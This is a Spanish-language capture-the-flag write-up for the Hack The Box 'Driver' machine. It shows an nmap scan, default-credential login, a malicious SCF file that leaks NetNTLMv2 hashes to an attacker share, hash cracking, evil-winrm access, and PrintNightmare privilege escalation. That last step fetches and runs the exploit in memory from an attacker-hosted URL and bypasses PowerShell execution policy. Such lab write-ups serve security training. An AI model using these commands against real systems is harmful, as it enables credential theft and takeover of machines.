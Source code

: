 #  DRIVER MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/1.png)

## INDEX

- [[#ESCANEO Y ENUMERACION|ESCANEO Y ENUMERACION]]
- [[#EXPLOTACION|EXPLOTACION]]
- [[#ELEVACION DE PRIVILEGIOS|ELEVACION DE PRIVILEGIOS]]


## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```
nmap -p- --open -T5 - v -n 10.10.11.106 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```
nmap -p80,135,445,5985 -sV -sC 10.10.11.106 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/3.png)

## EXPLOTACION

Vemos el puerto 80 abierto, si vamos a la pagina:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/4.png)

nos pide autenticacion basica, probemos credenciales por defecto **admin:admin**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/5.png)

entramos, si vamos al apartado de **Firmware update** vemos que podemos subir archivos. Se intento archivos PHP y demas pero no se logro nada interesante. Vemos el puerto 445 (Samba) que tambien estaba abierto.

En lo que consiste explotacion al servicio samba existe una forma de obtener hashes **NetNTLMv2** mediante un fichero **SCF** malicioso, la idea es crear un archivo con el nombre que empiece con **@** y termine con la extension **.scf**:

**@shell.scf**

```bash
[Shell]
Command=2
IconFile=\\<IP_KALI>\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

cargamos este archivos y nos colocamos en escucha con [responder](https://github.com/SpiderLabs/Responder):

```bash
responder -wrf --lm -v -I tun0
```

y capturamos el hash de tony

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/6.png)

lo guardamos en un archivo para crackearlo con john the ripper:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/7.png)

vemos que tenia el puerto **5985** que es el de **winrm** vamos a conectarnos por **evil-winrm**

```bash
evil-winrm -i 10.10.11.106 -u tony -p liltony
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/8.png)

ya podemos ver la primera flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/9.png)

## ELEVACION DE PRIVILEGIOS 

Ya que tenia el puerto **135 msrpc** abierto vamos a tratar de enumerar los servicios que estan corriendo, particularmente me interesa el de impresoras y probar el ataque **printnightmare**:

```bash
rpcdump.py @10.10.11.106 | grep MS-RPRN
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/10.png)

si se encuentra disponible, otra forma es desde powershell:

```bash
Powershell.exe Get-Service Spooler
```

vamos a usar un script en powershell de esta vulnerabilidad, se encuentra en este repositorio:

[https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)

pasamos el archivo .ps1 a la maquina windows mediante la funcion **upload** de evil-winrm:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/11.png)

ahora si tratamos de ejecutarlo nos dara el siguiente error:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/12.png)

la politica de ejecucion en powershell parece estar deshabibilitada, podemos ejecutarlo en memoria y realizar un bypass de la politica de ejecucion. En mi caso funciono la ejecucion en memoria, para ello levantamos  un servidor en python co el script y lo llamamos desde powershell de la siguiente manera:

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.139:8000/CVE-2021-1675.ps1')
```

con esto cargaremos todo el script en memoria y lo podremos usar:

```bash
Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure"
```

como dice en el repositorio creara por defecto el usuario **john** con la contraseña **superSecure** como un usuario administrador, esto se puede personalizar pero yo lo dejare asi:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/13.png)

podemos comprobar que existe el usuario:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/14.png)

ahora solo debemos conectarnos por **evil-winrm** con ese usuario y al ser administrador podremos ver la segunda flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/15.png)

**SEGUNDO METODO PARA BYPASSAR LA POLITICA DE EJECUCION**

invocamos el script de la siguiente manera:

```bash
powershell.exe -nop -ep bypass -c ".\CVE-2021-1675.ps1"
```

ahora ya podriamos crear al usuario:

```bash
Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure"
```

**AQUI MAS INFORMACION DE COMO EXPLOTAR PRINTNIGHTMARE**

[https://vk9-sec.com/printnightmare-cve-2021-1675-remote-code-execution-in-windows-spooler-service/](https://vk9-sec.com/printnightmare-cve-2021-1675-remote-code-execution-in-windows-spooler-service/)